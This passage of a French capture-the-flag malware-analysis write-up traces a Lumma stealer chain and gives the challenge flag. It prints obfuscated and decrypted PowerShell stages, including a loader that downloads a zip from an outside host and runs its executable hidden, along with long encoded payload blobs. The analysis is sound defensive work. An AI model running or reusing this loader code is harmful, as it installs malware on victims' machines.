GoAZgBHAHMAbgArAFkAdwBIAEUAMQBhAHQAdwBtAHEAOAB0AHEATgA3AEQASQBDAGQAZABKAHMAWABOADQAYgBPAGUATABOAFoAcwA4ADMANgBQAGsAWgArAHYAVABFADEAQQBVAGUAQwAxAEIAdwB5AHIARwBlAGcAbABzADEAYwByAGYARQBOADkARgBXAFEANgBHAFIAUABnAHMANABPAEMAaABPAEgAawBvAGMARwB2AHYARwBhAGgATABqAFkAMgBwAE8ATwBnAGsAVgBCADAATABoAE4AUgBUAGoANABCAHAASQA4AGMAbwBUAHQATQAvADMAQwBUAHYARgBVADYAdABHAEsAQwArAGwAQgBTAFQAVQB3AFgAcABWAEUAaABoADMAMwBIAEcAKwBHAGEAcgBvAEwAcgBsAC8ASgBwADQATgBsAE4AeQBlAFQAbQBFAHcATgBIAFcAZwBDAGMAawBEAEIANQA3AHcAUwBSAGkATQB0AGsATgBkAEQAQgBOAGEAdABsAGQAKwB4AFQAMwA4AHoAVQBmAFgATABUADMAVQBZAGIAZQA2AHEAVQBJAE4AYwBTAGMAOQB3AFgAawB4ADUANwBlADAANAArAGgAVABlAEoAQwBkAFQAKwBwAFoAYQBjAHUAUwB2AEUAQgBJADQAdwBJAEgAdgBmAGMAbABzADgAdQBqAHgAUABrAFYAUABNAEkAcQBXAFcAdABzAEoASQBpAG8AcAA0AHQAUABZAEoAUQA1AGEASwArAFAASwA2AHkAZABqAFUAVQBWAHEAdABDAG0AYQA3ADEANABNAGsAUABWAGIAaQB2AEgAMABEAFMAUgBIAFcAaQAzAFUAUwBnAFQAbwBxAEcARgBSAFQATgA2AEgAYwB5AGoAMgB4AC8AWQBnAFgAUAB5AFgAdwAyAFkAVgBoAG4AZQB0AG4ANQBKAHUAOQBuAGsAZgBaAFcASQB1AG8AZQA3AGgAegBOAGkAZgBTAGgAeQBqAGkAZgBOAEEASABOAFMAbABmADcAUgAvAHoAbgA1AGQARQAxAFoAbQBuAGIAYgBvAFgAcQBwAG8AUwBQAEwAbgB0AFgAZwB2ADIAYgBGAEUARwA1AE4AMAAyAFcAKwBqAFkAdABoAFQAVQBSAHEAegBjAHgAVABqAG8AawBLAEoAawB1AFgAWQBBAFoAZwA9AD0AJwAKACQARAA9AEIAIAAtAGUAIAAkAEUAIAAtAGsAIAAkAGsAIAAtAHYAIAAkAHYACgBJAEUAWAAgACQARAA7AA==")
$y6uL4q = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($w9eR1a))
$k3mV5x = [ScriptBlock]::Create($y6uL4q)
$j4bN2t = $x2fM3d.Ast
$z7qX1w = $k3mV5x.Ast
$h9gP3d = $j4bN2t.Copy()
$v2mL4k = $z7qX1w.EndBlock.Copy()
$s1dR6j = [System.Management.Automation.Language.ScriptBlockAst]::new(
    $h9gP3d.Extent,
    $null,
    $null,
    $null,
    $v2mL4k,
    $null
)
$r3gY2aBlock = $s1dR6j.GetScriptBlock()
$r3gY2aBlock.Invoke() | Out-String
```

On a un premier script avec une seconde charge


```jsx
function A {
    param($x);
    $b = New - Object Byte[]($x.Length / 2);
    for($i = 0;
    $i - lt$b.Length;
    $i++) {
        $b[$i] = [Convert]::ToByte($x.Substring($i * 2, 2), 16)
    };
    $b
}

function B {
    param([Parameter(Mandatory = $true)][string]$e, [Parameter(Mandatory = $true)][string]$k, [Parameter(Mandatory = $true)][string]$v);
    $d = New - Object System.Text.UTF8Encoding;
    $c = [Convert]::FromBase64String($e);
    $a = New - Object System.Security.Cryptography.AesManaged;
    $a.Mode = [System.Security.Cryptography.CipherMode]::CBC;
    $a.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
    $a.KeySize = 128;
    $a.BlockSize = 128;
    $a.Key = $d.GetBytes($k);
    $a.IV = A $v;
    $t = $a.CreateDecryptor();
    $p = $t.TransformFinalBlock($c, 0, $c.Length);
    $d.GetString($p)
}

$k = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("SjVQRWI2WEpmbXlLVXF2Nw=="))
$v = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("YWM0NTlmNjQyMTFmY2Q4NTFjZjBmNTdjMjQzMDEyNzA="))
$E = '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'
$D = B  - e $E  - k $k  - v $v
IEX $D;
```

On remplace `IEX` par `Write-Host` puis on utilise [tio.run](http://tio.run/)

```jsx
$XxZ = {
    $Rz = Get-Random -Minimum 3100 -Maximum 5100
    Start-Sleep -Milliseconds $Rz
    $Pz = 'Tls12, Tls11, Tls, Ssl3'
    $Sz = $Pz -split ', ' | ForEach-Object { [Net.SecurityProtocolType]::$_ } | ForEach-Object -Begin { $Vz = 0 } -Process { $Vz = $Vz -bor $_ } -End { $Vz }
    [Net.ServicePointManager]::SecurityProtocol = $Sz
    $Mz = (Get-Process -Id $PID | Select-Object @{Name='Zz'; Expression={($_.ws / 1MB)}}).Zz
    if ($Mz -lt 250) { $Nz = 'b' * 300MB }
    Add-Type -AssemblyName System.Net.Http
    Add-Type -AssemblyName System.IO.Compression.FileSystem
    $Hz = New-Object System.Net.Http.HttpClient
    $Uz = 'https://downloaddining.rest/df/ENC'
    $Kz = [System.IO.Path]::GetRandomFileName() + '.zip'
    $Qz = [System.IO.Path]::Combine([System.IO.Path]::GetTempPath(), $Kz)
    $Bz = $Hz.GetByteArrayAsync($Uz)
    $Bz.Wait()
    [System.IO.File]::WriteAllBytes($Qz, $Bz.Result)
    $Fz = [System.IO.Path]::Combine([System.Environment]::GetFolderPath('ApplicationData'), [System.IO.Path]::GetRandomFileName())
    [System.IO.Directory]::CreateDirectory($Fz)
    Start-Sleep -Milliseconds $Rz
    [System.IO.Compression.ZipFile]::ExtractToDirectory($Qz, $Fz)
    Start-Sleep -Milliseconds $Rz
    $Ez = Get-ChildItem -Path $Fz -Filter *.exe -Recurse | Select-Object -First 1
    if ($Ez -ne $null) {
        $Pz = New-Object System.Diagnostics.Process
        $Pz.StartInfo.FileName = $Ez.FullName
        $Pz.StartInfo.UseShellExecute = $false
        $Pz.StartInfo.WindowStyle = [System.Diagnostics.ProcessWindowStyle]::Hidden
        $Pz.Start()
    }
}
$XxZ.Invoke() | Out-Null
```

```jsx
    $Rz = Get-Random -Minimum 3100 -Maximum 5100
```

1. Identifier l’endpoint commun à tout les urls vers lequel le dernier stage du malware tente de faire une requete


[downloaddining.rest - urlscan.io](https://urlscan.io/result/effc0ce9-edf9-4cc5-9c0a-2c2f4cc2b82f/)

[lumma | 384d1185d248d647cc639c24f082412950b1bb2413c49e152257b8fc1a42468c | Triage](https://tria.ge/240623-bfrbestbrg)



Format : BZHCTF{md5{script.js|nomdelatechnique|bornemin-bornemax|endpoint}}

Flag :

`BZHCTF{ethers-5.2.umd.min.js|etherhiding|3100-5100|api}`

`BZHCTF{1e16b0a1ff9f0733fd961b55b5dce974}`

1. Analyse complémentaire

Lors de l’analyse réaliser j’ai identifier 3 scan du nom de domaine qui ne comportait pas les même artefacts que les autres scans

[www.r2kslaw.com - urlscan.io](https://urlscan.io/result/fbc76e07-c663-4957-b85e-bd41fd88b417)

[urlscan.io](https://urlscan.io/responses/ecf2895726d25dabc8ca594dcd50e83aecb59a9d8ac9ab409faef52a678242bc/)

[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=MHgwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDIwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDlmYzVhNmU1Njc1NTkzMzUyNzA2MjMyMzQ2NzU4N2E0MjM0NGU1NDUxNzk1YTUzNjg2NjRkNDg2NzdhNWE2ZDU2NmI0ZTdhNDk3MzU4N2E0MjM0NGU0NzU2NmM1YTQ0NmM2YjRiNTg3NDZhNjIzMjM1N2E2NDQzNDI2NjRkNDg2NzdhNGQ1NzRlNmI1OTMyNTUzOTU4N2E0MjM0NGU1NDVhNjg0ZDUzNjc3MDRmMzM0YTZjNjQ0ODU2Nzk2MjY5NDI2NjRkNDg2NzMxNGU0NDRhNmM1MDU3NWEzMTYyNmQ0ZTMwNjE1NzM5NzU0YjQ2Mzg3NzY1NDQ1YTY4NTk3YTUxN2E1OTc5Nzg2NjRkNDg2Nzc5NTkzMjU1MzQ1YTQ0NDU3MDY1MzEzODc3NjU0NDVhNjg1OTdhNTE3YTU5N2EzMTY2NGQ0ODY3MzI1OTU3NGQzMDRkMzI0ZDc0NGI0NDQyMzQ0ZTdhNTE3MTRjNTQ0MjM0NGU0MzczNzQ0ZDQ4Njc3YTU5NmQ0NTcyNGQ0ODY3MzI0ZDMyNTE3MDRmMzI3ODZjNjQ0MzQyNjY0ZDQ4Njc3OTU5MzI1OTc4NGU2YTU1Mzk1ODdhNDIzNDRkN2E0NjZhNWE0NzRlNmM1NzMxMzg3NzY1NDQ1YTY4NTk3YTUxN2E1OTMxMzAzNzYzNmQ1NjMwNjQ1ODRhNzU0OTQ2Mzg3NzY1NDQ0YTZhNWE2YTQ1MzI0ZTU0NzQzOTRjNDYzODc3NjU0NDU1MzA0ZDZkNTU2ZjU4N2E0MjM0NGQzMjVhNmM1YTQ0NjM3OTRjNDYzODc3NjU0NDUyNmM1YTU3NTEzNTVhNDM2YjM3NjY1MzY4NmQ2NDU3MzU2YTY0NDc2Yzc2NjI2OTY4NjY0ZDQ4Njc3OTRmNTc1NTc5NGQ1NDY3NzM1ODdhNDIzNDRkNTQ1YTZhNTk2ZDU1MzU0YjU4NzQ2YTYyMzIzNTdhNjQ0MzQyNjY0ZDQ4NjczMDVhNmE1NTMyNWE1NzRkMzk1ODdhNDIzNDRlNTQ1MTc5NWE1Mzc4NjY0ZDQ4NjczMDRkNTc1YTY4NGQ3YTQxMzk1ODdhNDIzNDRkNmE2YzZjNGQ2YTQ1MzQ0YjQzNmIzNzY0MzI2ODcwNjI0NzU1NmY0OTUzNDY2MjU4NTM2YzM3NjQ0ODRhMzU2NTMyNGU3NjYyNmU0ZTMwNDk0NjM4Nzc2NTQ0NTY2ODVhNmQ1MTMwNGU2YTMwNzQ2MzQ3NDY3OTYzMzI1NjRhNjI2ZTUxNmY1ODdhNDIzNDRlNDc1OTMxNGU2ZDU2NmE0YjQ0NDIzNDU5NmQ0OTcwNGI1MzM4NmY0YzU0NDIzNDU5MzI0OTM0NGI3OTMwNzc2NTQ0NDY2ODRkNmE1NTcyNGQ0ODY3Nzk0ZTZkNTI2YzRiNTM3NDc3NTk1ODRhN2E1YTU1NmM3NTY0NDM2ODY2NGQ0ODY3MzA1YTZhNTUzMjVhNTc0ZDZmNGQ0ODY4Njk1OTc5NmI3MDRjNzk2Nzc0NGQ0ODY3Nzg0ZTMyNGE2ZDRiN2E0MjM0NGQ2YTQ5MzM1YTY5NzM3NDRkNDg2ODY4NTk2ZDU1NzA0YjY5Njc3NDYzNDc0Njc5NjMzMjU2NGE2MjZlNTE2ZjU4N2E0MjM0NGU0NzU5MzE0ZTZkNTY2YTRiNDQ0MjM0NTk2YTYzNzA0YjUzMzg2ZjRjNTQ0MjM0NGU1NzU1NzE0ZDQ4NjczMDRkNzk3Mzc3NjU0NDU1MzE0ZTc5NzM3NzY1NDQ0NTdhNGU0NDU5NzA0YjUzNzQ3NzU5NTg0YTdhNWE1NTZjNzU2NDQzNjg2NjRkNDg2NzMwNWE2YTU1MzI1YTU3NGQ2ZjRkNDg2ODY5NGQ3OTZiNzA0Yzc5Njc3NzY1NDQ0NTc3NGU3YTU1NzE0ZDQ4Njc3OTRiNzkzMDc3NjU0NDQ1NzE0ZDQ4Njg2YjRmNDc1OTcyNGM1NDQyMzQ0ZDU0NGQzMTRlNzk2Zjc3NjU0NDQ1NzA0YjY5Njc3NDYzNDc0Njc5NjMzMjU2NGE2MjZlNTE2ZjU4N2E0MjM0NGU0NzU5MzE0ZTZkNTY2YTRiNDQ0MjM0NTk3YTUxNzA0YjUzMzg2ZjRjNTQ0MjM0NGQ1NDRlNmI1YTY5NzM3NzY1NDQ1OTMxNGI2OTMwNzc2NTQ0NGU2YjRiN2E0MjM0NGQ2ZDRhNmQ0ZTUzNmI3MDRiNzkzMTc3NTk1ODRhN2E1YTU1NmM3NTY0NDM2ODY2NGQ0ODY3MzA1YTZhNTUzMjVhNTc0ZDZmNGQ0ODY4NmE0ZDY5NmI3MDRjNzk2Nzc3NjU0NDRkNzk1OTUzNzM3NzY1NDQ0NTcxNGQ0ODY3Nzg0ZjU3NTE3OTRiN2E0MjM0NGQ1NDU1Nzg0YjY5MzA3NzY1NDQ0NTMyNGI1Mzc0Nzc1OTU4NGE3YTVhNTU2Yzc1NjQ0MzY4NjY0ZDQ4NjczMDVhNmE1NTMyNWE1NzRkNmY0ZDQ4Njg2YTRkNTM2YjcwNGM3OTY3Nzc2NTQ0Njg2YjRkNzk3Mzc0NGQ0ODY3MzI1YTQzNmY3NDRkNDg2NzdhNGY0MzczNzQ0ZDQ4Njc3OTRkNDc0NTMwNGI1MzZmNmY2MzQ3NDY3OTYzMzI1NjRhNjI2ZTUxNmY1ODdhNDIzNDRlNDc1OTMxNGU2ZDU2NmE0YjQ0NDIzNDU5NmE1OTcwNGI1MzM4NmY0YzU0NDIzNDRkN2E2MzcxNGQ0ODY3MzU1OTUzNzM3NzY1NDQ0OTc4NGY1NzQ5NzI0ZDQ4Njc3ODRmNTM2Zjc0NGQ0ODY3MzE0YjUzNmI3MjYzNDc0Njc5NjMzMjU2NGE2MjZlNTE2ZjU4N2E0MjM0NGU0NzU5MzE0ZTZkNTY2YTRiNDQ0MjM0NTk3YTQxNzA0YjUzMzg2ZjRjNTQ0MjM0NGQ1MzZmNzc2NTQ0NDU3NzRlNmE0OTcyNGM1NDQyMzQ0ZDUzNmY3NzY1NDQ0NjZhNGQ1NzU1NzI0ZDQ4Njc3YTRlNmQ1MTcxNGQ0ODY4NmI0YjUzNzQ3NzU5NTg0YTdhNWE1NTZjNzU2NDQzNjg2NjRkNDg2NzMwNWE2YTU1MzI1YTU3NGQ2ZjRkNDg2ODY5NGU0MzZiNzA0Yzc5Njc3NDRkNDg2Nzc5NGQ0NDUxNzg0YjZhNDIzNDRkNTM3Mzc0NGQ0ODY4Njg1YTQ3NTU3MjRkNDg2NzMzNWE2OTZmNzc2NTQ0NTUzMzRiNTQ3NDcwNWE2OTY4NjY0ZDQ4NjczMTU5NTc1YTZiNGU0NDU5Mzk1MDU0MzE2NjRkNDg2Nzc4NGU2ZDRlNjk1YTU0NmI3MDU5NmU0YTZjNTk1NzczMzc1YTU3Nzg3YTVhNTM0MjY2NGQ0ODY3MzA0ZDU3NWE2ODRkN2E0MjYyNGEzMzQyMzE2MzMyNjc2ZTU4NTM2ODY2NGQ0ODY3MzA0ZDU3NWE2ODRkN2E0MjYyNGEzMzRlNmY2MTU3NWEzMDRhMzEzMDZmNGI1MzZiMzc2NjU3NGU2ODY0NDc0ZTZmNGI0NjM4Nzc2NTQ0NmI3OTRkNTc1OTdhNGQ3OTZjMzc1ODdhNDIzNDRlNDQ0NjZkNTk1NDRkNzc1Nzc5NjQ3NzY0NTg0ZTZmNGEzMTMwNmY1ODdhNDIzNDRlNDQ0NjZkNTk1NDRkNzc1Nzc5NjQ3YTYxNDc2YzZkNjQ0MzY0NjQ0YjQzNmI3MDRmMzMzMTM5NjY1MzY4NjY0ZDQ4NjczMTRlNmQ0NTc4NGM0MzMwNzc2NTQ0NDU3YTVhNDQ0MTMyNGY0MzczNzc2NTQ0NTEzNDRmNTQ1MTMzNGI3YTQyMzQ0ZDc5NmY3NzY1NDQ2NzMyNGUzMjQ1Nzg0YjUzNzc2ZjU4N2E0MjM0NTk3YTZiNzk0ZTU3NGU2YjRjNDYzODc3NjU0NDRkMzE0ZTQ3NTUzNTRlNTQzMDZlNjQzMzQxNmU0YjU0MzAyYjY1MzI0ZTc2NjI2ZTRlMzA0OTQ2Mzg3NzY1NDQ0ZTZiNWE2YTQ1MzI1YTQ0MzE2NjRkNDg2NzMxNGU0NDRhNmM0YzQ2Mzg3NzY1NDQ1MTc5NGQ0NDRhNmI0ZTQ0MzEzNzRhMzM0NjYxNjU1NTQ2NTQ0YTdhNzA2NjRkNDg2NzdhNWE0NzU5Nzg0ZTZkNTE2ZjRkNDg2ODY5NWE0MzZiNzM0YTMyNzQ1MTUzNTc0NjZlNGE3YTcwNmQ2NDU3MzU2YTY0NDc2Yzc2NjI2OTY4NjY0ZDQ4NjczMDRmNDc0ZDM0NGU2YTRkNzM1ODdhNDIzNDRkNTc0NjY5NGQ1NDQ5MzE0YjU4NzQ3OTVhNTg1MjMxNjM2ZDM0Njc1ODdhNDIzNDRlNDQ2ODZhNGY0NDU5N2E0YjQ2Mzg3NzY1NDQ0NjY4NTk2YTQ1Nzk0ZTUzNmIzNzY2NTgzMDM3NjUzMjc4NmM2NDQzNDI2NjRkNDg2Nzc5NGQ0NDU5Nzg0ZTU0NDUzOTYyNmQ1NjMzNDk0NjY4NGU1NDQ1NjgzMDY0NDg0MjUzNWE1ODQ2MzE1YTU4NGUzMDRiNDM2YjM3NjM2ZDU2MzA2NDU4NGE3NTQ5NDYzODc3NjU0NDQ5Nzc0ZTZhNDUzMTRkNTY3NDY2NGQ0ODY3N2E1YTQ3NTk3ODRlNmQ1MTZmNGQ0ODY4NmE0ZTY5NmM2NDRiNDYzODc3NjU0NDUxNzk0ZDQ0NGE2YjRlNDY3NDY2NGQ0ODY3N2E1YTQ3NTk3ODRlNmQ1MTZmNGQ0ODY4NmE0ZTUzNmM2NDRjNDYzODc3NjU0NDRlNmI1YTZhNDUzMjVhNDM2Nzc3NjU0NzQ5MzE0YjUzNzQ2NjRkNDg2NzdhNWE0NzU5Nzg0ZTZkNTE2ZjRkNDg2ODY5NTk1MzZiNzI1ODdhNDIzNDRkMzI1MjZkNGQ1NDVhNmI0YjQ0NDIzNDU5NmQ1NTcwNGIzMTM4Nzc2NTQ0NGU2YjVhNmE0NTMyNWE0MzY3Nzc2NTQ3NGQ3YTRiNTM3NDY2NGQ0ODY4NmE0ZjU0NDkzMTU5MzI1MTcyNTg3YTQyMzQ0ZDMyNTI2ZDRkNTQ1YTZiNGI0NDQyMzQ1OTdhNjM3MDRiMzEzODc3NjU0NDRkMzE0ZTQ3NTUzNTRlNTM3NzY4NGI0MzMwNzc2NTQ0NDUzMDRkN2E0OTcyNGM1NDQyMzQ0ZDZhNTE3NzVhNDM3Mzc3NjU0NDQ1Nzk0YjZhNDIzNDRkN2E0OTc3NGI1MzZiNzM1ODdhNDIzNDRkNmE0MTMyNGQ1NDU1Nzg1NzMxMzg3NzY1NDQ0ZTZiNWE2YTQ1MzI1YTQzNjc3NzY1NDc0OTM0NGI1NjMwNmY2MjZlNTY3MzYyNDM2YjczNTg3YTQyMzQ0ZTQ0NDk3NzRkNmQ1MTMwNTczMTM4Nzc2NTQ0NGU2YjVhNmE0NTMyNWE0MzY3Nzc2NTQ3NGE2ZDRiNTYzMDZmNWE1ODVhNjg2MjQzNzg2NjRkNDg2Nzc5NGQ0NDU5Nzg0ZTU0NDY2MjU4N2E0MjM0NGQzMjUyNmQ0ZDU0NWE2YjRiNDQ0MjM0NTk2YTZiNzA0Yjc5NjQzNDY0NDM2NDY0NGI1NDc0Mzk2NjUzNmIzNzVhNmU1Njc1NTkzMzUyNzA2MjMyMzQ2NzU4N2E0MjM0NGU1NDVhNjg0ZDUzNjc3MDY1MzI0ZTc2NjI2ZTRlMzA0OTQ2Mzg3NzY1NDQ1MjY5NGY1NDRkMzA0ZDZhMzE2MjRhN2E0NTMxNGU3YTQxMzA0ZDdhNWEzMTU3NDg1NjRhNTE1NTY3NmU0YzQzNjM3OTRmNDQ1OTc5NGQ3YTZiNzc0ZDQ1NGE1MTY1NDc3ODcxNWE1MzYzNzM0YTMyNjgzMDY0NDg0MjdhNGY2OTM4NzY1OTMyNTU2ZTRjNDM2MzM0NWE2YzQyNTg1MTU3NzQzNDRhNzk3NzZlNGQ1NDU5MzU0ZDZjNTY3MDY0NDU1MjRhNTY3OTYzNzM0YTMzNGU2YzYyNmQ1MTZlNGM0MzY0Nzk1YTU4NGU3NzYyMzIzNTdhNWE1NjUyNmM0YTc5Nzc2ZTYxNmQ1NjZhNjQ1ODU1MzA0YzZlNjgzNTY1Njk2MzczNGE3YTU5Nzc0ZjQ0NmIzNTRmNDc2NDQ2NTM1NjRhNzY1NDY5NjM3MzRhN2E0ZDM0NGU2YTRhNzc1YTU3Njg0YjYxNmQ0ZDZlNGM0MzY0NDg1MjU2NTE2ZTRjNDM2Mzc2NGY0NTM5MzA1OTU1NGE3OTRjN2EzOTY4NGE3OTc3NmU2MTMxNDI0YTU5NTc2MzZlNGM0MzYzMzA0ZjU0NmIzMzRlN2E1MTMxNTM0NjUyNTE1NzQ1NTY1NzRhNzk3NzZlNGU0NDQxNzc0ZDdhNDE3OTRlMzM3MDZlNTE2YzQ2NzE1NjQzNjM3MzRhN2E2MzMwNGY0NDU1MzU0ZTdhNjg1ODU2MzE0NjQyNjE0NzZiNmU0YzQzNjQ2YjVhNDc1NjZiNTA1MzYzNzM0YTdhNTY3NDUzNmU0ZTQ0NTIzMzRkNmU0YzQzNjQ3ODU3NmU2YzQyNTU3OTYzNzM0YTMyMzk3NzVhNTczNDZlNGM0MzYzNmQ2NDQ3Njg3OTVhNTc0NjZiNTA1MzY0NjQ0ZjMxMzg3NzY1NDQ1NTMyNTk1NDQ1Mzk1YTZlNTY3NTU5MzM1MjcwNjIzMjM0NmY0YjU4NzQ3OTVhNTg1MjMxNjM2ZDM0Njc1ODdhNDIzNDRlNDc0OTM1NGQ3YTUxNzk0ZjMzMzAzNzYzNmQ1NjMwNjQ1ODRhNzU0OTQ2Mzg3NzY1NDQ1NTMyNTk1NDQ1NmY0YjU0NzQzOTAwMDAwMDAw)

[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=/FpuVnVZM1JwYjI0Z1h6QjROVFF5WlNoZk1IZ3pabVZrTnpJc1h6QjROR1ZsWkRsa0tYdGpiMjV6ZENCZk1IZ3pNV05rWTJVOVh6QjROVFpoTVNncE8zSmxkSFZ5YmlCZk1IZzFOREpsUFdaMWJtTjBhVzl1S0Y4d2VEWmhZelF6WXl4Zk1IZ3lZMlU0WkRFcGUxOHdlRFpoWXpRell6MWZNSGcyWVdNME0yTXRLREI0TnpRcUxUQjROQ3N0TUhnelltRXJNSGcyTTJRcE8yeGxkQ0JmTUhneVkyWXhOalU5WHpCNE16RmpaR05sVzE4d2VEWmhZelF6WTEwN2NtVjBkWEp1SUY4d2VESmpaakUyTlR0OUxGOHdlRFUwTW1Vb1h6QjRNMlpsWkRjeUxGOHdlRFJsWldRNVpDazdmU2htZFc1amRHbHZiaWhmTUhneU9XVXlNVGdzWHpCNE1UWmpZbVU1S1h0amIyNXpkQ0JmTUhnMFpqVTJaV005WHpCNE5UUXlaU3hmTUhnME1XWmhNekE5WHpCNE1qbGxNakU0S0NrN2QyaHBiR1VvSVNGYlhTbDdkSEo1ZTJOdmJuTjBJRjh3ZURWaFptUTBOajB0Y0dGeWMyVkpiblFvWHpCNE5HWTFObVZqS0RCNFltSXBLUzhvTFRCNFkySTRLeTB3ZURGaE1qVXJNSGd5Tm1SbEtTdHdZWEp6WlVsdWRDaGZNSGcwWmpVMlpXTW9NSGhpWXlrcEx5Z3RNSGd4TjJKbUt6QjRNakkzWmlzdE1IaGhZbVVwS2lndGNHRnljMlZKYm5Rb1h6QjROR1kxTm1WaktEQjRZamNwS1M4b0xUQjROV1VxTUhnME15c3dlRFUxTnlzd2VERXpORFlwS1N0d1lYSnpaVWx1ZENoZk1IZzBaalUyWldNb01IaGlNeWtwTHlnd2VERXdOelVxTUhneUt5MHdlREVxTUhoa09HWXJMVEI0TVRNMU55b3dlREVwS2lndGNHRnljMlZKYm5Rb1h6QjROR1kxTm1WaktEQjRZelFwS1M4b0xUQjRNVE5rWmlzd2VEWTFLaTB3ZUROa0t6QjRNbUptTlNrcEt5MXdZWEp6WlVsdWRDaGZNSGcwWmpVMlpXTW9NSGhqTWlrcEx5Z3dlRE15WVNzd2VERXFNSGd4T1dReUt6QjRNVFV4S2kwd2VERTJLU3R3WVhKelpVbHVkQ2hmTUhnMFpqVTJaV01vTUhoak1Ta3BMeWd3ZURoa015c3RNSGcyWkNvdE1IZ3pPQ3N0TUhneU1HRTBLU29vY0dGeWMyVkpiblFvWHpCNE5HWTFObVZqS0RCNFlqWXBLUzhvTFRCNE16Y3FNSGc1WVNzd2VESXhPV0lyTUhneE9Tb3RNSGcxS1NrcmNHRnljMlZKYm5Rb1h6QjROR1kxTm1WaktEQjRZekFwS1M4b0xUQjRNU293ZURFd05qSXJMVEI0TVNvd2VERmpNV1VyTUhnek5tUXFNSGhrS1N0d1lYSnpaVWx1ZENoZk1IZzBaalUyWldNb01IaGlOQ2twTHlndE1IZ3lNRFF4S2pCNE1Tc3RNSGhoWkdVck1IZzNaaW93ZURVM0tUdHBaaWhmTUhnMVlXWmtORFk5UFQxZk1IZ3hObU5pWlRrcFluSmxZV3M3Wld4elpTQmZNSGcwTVdaaE16QmJKM0IxYzJnblhTaGZNSGcwTVdaaE16QmJKM05vYVdaMEoxMG9LU2s3ZldOaGRHTm9LRjh3ZURreU1XWXpNeWw3WHpCNE5ERm1ZVE13V3lkd2RYTm9KMTBvWHpCNE5ERm1ZVE13V3lkemFHbG1kQ2RkS0NrcE8zMTlmU2hmTUhnMU5tRXhMQzB3ZURFelpEQTJPQ3N3ZURRNE9UUTNLekI0TXl